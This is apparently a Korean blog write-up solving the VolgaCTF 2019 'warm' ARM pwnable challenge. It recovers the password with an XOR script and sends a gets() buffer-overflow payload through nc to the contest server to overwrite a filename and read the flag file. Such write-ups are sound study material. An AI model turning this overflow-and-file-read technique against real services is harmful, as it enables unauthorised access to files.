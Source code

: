 ```yaml
---
layout: post
title: ! "[volgaCTF 2019] warm"
excerpt_separator: <!--more-->
tags:
  - Vertex
  - VolgaCTF2019
  - Write-up
---
```


대회 이후에 푼 volgaCTF 2019 warm 포너블 문제.
<!--more-->


## VolgaCTF2019 - warm

arm 바이너리로 되어있는 간단한 포너블 문제이다.



arm 명령어는 익숙치 않아서

hexray를 사용하고, 호출하는 함수 역할대로 네이밍을 해보면

![](https://i.imgur.com/Z8KZMMP.png)





선언된 내부 변수명 설정.

![](https://i.imgur.com/MsbflRq.png)



이 바이너리는

1. flag파일의 이름을 환경변수로부터 가져온다. 환경변수에 없으면 그냥 “flag”
2. 패스워드를 gets로 inputBuf[100]에 입력받는다. (버퍼오버플로우 발생)
3. 입력값을 chkPassword로 확인
4. filename에 들어있는 파일을 읽어서 화면에 뿌려줌.



gets에서는 버퍼오버플로우가 발생하는데, 이를 통해 inputBuf[100]을 넘겨서 filename을 덮어쓸 수 있습니다. 그럼 임의의 파일을 읽을 수 있습니다.



풀이 절차는

1. chkPassword 함수를 분석해 암호를 알아낸다.

 	2. 버퍼오버플로우를 이용해 flag파일을 읽는다. 또는 쉘을 얻어낸다.



## chkPassword 함수를 통해 암호 알아내기

![](https://i.imgur.com/Z9AVcMd.png)

상당히 노골적인(?) 암호 체크 함수입니다.

각 조건별로 (passChr[i] ^ passChr[i-1]) == ?? 형태이고, 

?? ^ passChr[i-1] 를 통해 passChr[i]의 값을 알아낼 수 있습니다.

passChr[0]은 85 ^ 0x23 즉 76입니다.

이 값을 이용해 연쇄적으로 모든 password를 알아낼 수 있습니다.



```python
key = [85,78,30,21,94,28,33,1,52,7,53,17,55,60,114,71]

passChr = 35 # 0x23

password = ""
for i in key:
    passChr = i ^ passChr
    password += chr(passChr)

print(password)
```

```
v8&3mqPQebWFqM?x
```





```
python -c "print('v8&3mqPQebWFqM?x');" | nc warm.q.2019.volgactf.ru 443 
```

\>>>

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```





## flag 파일 읽기

BOF를 이용해 filename을 덮어쓸 수 있습니다.

inputBuf 크기가 100이고, 아까 구한 패스워드 크기가 16이므로,

```
( password ) + ( 84 크기 dummy ) + (읽을 파일명)
```



으로 페이로드를 짜면 됩니다.



아까 패스워드를 입력해서 환경변수로 등록된 flag파일의 내용이

```
Seek file with something more sacred!
```

였고, 다른 writeup들을 찾아본 결과 “sacred” 파일을 읽으면 된다네요.



``` sh
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```



이렇게 찾은 플래그는

```
VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} 
```

